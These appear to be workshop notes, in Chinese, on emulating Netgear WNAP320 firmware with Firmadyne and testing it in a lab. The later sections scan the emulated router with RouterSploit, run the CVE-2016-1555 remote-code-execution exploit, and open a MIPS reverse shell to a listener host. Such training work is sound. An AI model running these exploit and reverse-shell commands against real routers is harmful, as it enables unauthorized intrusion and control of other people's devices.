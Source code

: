 # 2/12 工作坊
* 科技部前瞻資安科技專案110年度成果分表暨交流會議
## 環境
* [VirtualBox](https://www.virtualbox.org/)
* 下載 OVA (分流):
    * [Google drive 1](https://drive.google.com/drive/folders/14hZqCpnmJeWQrf5H9oAWgwLNR7pVZcfH?usp=sharing)
    * [Google drive 2](https://drive.google.com/drive/folders/1WSAeV7DKw9dxUdZTl_NdRtO6KnibL_Hb?usp=sharing)
    * [Mega](https://mega.nz/folder/xJ1kTZTS#XhtI3-QgaFj7jClgHSjHGA)
    * 當天準備隨身碟
* 請先下載 VirtualBox 及 OVA (預先準備好的環境)
* 開啟 VirtualBox 並匯入 OVA
* ubuntu 18.04
    * User : example
    * Password : 220212
## Firmadyne
* 因 binwalk 改版導致
    * 改 Python3 安裝套件
    * source/extractor/extractor.py 改用 python3 執行
* 步驟
```
# Firmadyne tools

$ sudo apt-get install busybox-static fakeroot git dmsetup kpartx netcat-openbsd nmap python-psycopg2 python3-psycopg2 snmp uml-utilities util-linux vlan python3-pip vim
$ python3 -m pip install --upgrade pip
$ sudo ln -s /usr/bin/pip3 /usr/bin/pip
$ git clone --recursive https://github.com/firmadyne/firmadyne.git



# Binwalk

$ git clone https://github.com/ReFirmLabs/binwalk.git
$ cd binwalk
$ sudo ./deps.sh --yes
$ sudo python3 ./setup.py install
$ sudo -H pip3 install git+https://github.com/ahupp/python-magic
$ sudo -H pip3 install git+https://github.com/sviehb/jefferson



# Database

$ sudo apt-get install postgresql -y
$ sudo -u postgres createuser -P firmadyne # with password firmadyne
$ sudo -u postgres createdb -O firmadyne firmware
$ cd ..
$ sudo -u postgres psql -d firmware < ./firmadyne/database/schema



# Binaries

$ cd ./firmadyne; ./download.sh



# QEMU

$ sudo apt-get install qemu-system-arm qemu-system-mips qemu-system-x86 qemu-utils -y



# Usage

# Set FIRMWARE_DIR in firmadyne.config to point to the root of this repository.
$ wget http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip
$ sudo python3 ./sources/extractor/extractor.py -b Netgear -sql 127.0.0.1 -np -nk "WNAP320 Firmware Version 2.0.3.zip" images
$ ./scripts/getArch.sh ./images/1.tar.gz    # password : firmadyne
$ ./scripts/tar2db.py -i 1 -f ./images/1.tar.gz
$ sudo ./scripts/makeImage.sh 1             # password : firmadyne
$ ./scripts/inferNetwork.sh 1               # password : firmadyne
$ ./scratch/1/run.sh

```

## Firmware
* Netgear WNAP320 ( firmadyne 預設 firmware )
* IP : 192.168.0.100
* Nmap 確認啟動服務
* ![](https://i.imgur.com/bPUHXuZ.png)
* 透過 Browser 確認 Web service
* 可測出漏洞
## RouterSploit
![](https://i.imgur.com/jNMgZSk.png)
* Router 常見漏洞測試工具
* 安裝
```
$ git clone https://github.com/reverse-shell/routersploit
$ cd routersploit
$ python3 -m pip install -r requirements.txt
```
* 執行
```
python3 rsf.py

> use scanners/routers/router_scan
> set target 192.168.0.100
> run
```
* 結果
* ![](https://i.imgur.com/izQXOw2.png)
* 漏洞細節有待分析確認
# 漏洞
* [CVE-2016-1555](https://nvd.nist.gov/vuln/detail/CVE-2016-1555)
* Pre-Auth Command Injection & XSS
    * Blind Command Injection - Payload 注入之後會執行但是不會回傳結果，可以利用 reverse shell 進入系統查看
* Multi-RCE
    ```
    > use exploits/routers/netgear/multi_rce
    > run
    ```
    ![](https://i.imgur.com/DjZXcAT.png)
* Reverse Shell
    ```
    > show payloads
    
    Payload                Name                   Description                                                        
   -------                ----                   -----------                                                        
   mipsbe/reverse_tcp     MIPSBE Reverse TCP     Creates interactive tcp reverse shell for MIPSBE architecture.     
   mipsbe/bind_tcp        MIPSBE Bind TCP        Creates interactive tcp bind shell for MIPSBE architecture.     
   
   > set payload mipsbe/reverse_tcp
   > set lhost 192.168.0.99
   > run
    ```
    ![](https://i.imgur.com/CRcyUvB.png)
# Bug
* 若開機卡死請按照下文步驟處理
* https://blog.csdn.net/weixin_44608039/article/details/91289709

